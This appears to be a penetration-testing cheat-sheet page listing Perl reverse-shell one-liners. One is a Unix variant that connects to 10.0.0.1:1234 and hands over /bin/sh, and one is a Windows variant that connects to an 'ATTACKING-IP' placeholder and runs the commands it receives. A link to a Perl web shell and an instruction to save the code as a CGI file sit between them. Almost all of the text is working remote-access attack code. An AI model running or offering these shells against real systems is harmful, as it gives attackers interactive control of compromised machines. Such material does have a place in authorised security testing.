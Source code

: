 # Perl

#### Save this as a CGI file: - you can always just use a command line as well

```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

### perl-reverse-shell

​​[http://pentestmonkey.net/tools/web-shells/perl-reverse-shell](http://pentestmonkey.net/tools/web-shells/perl-reverse-shell)

### Perl Windows Reverse Shell

```
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"ATTACKING-IP:80");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
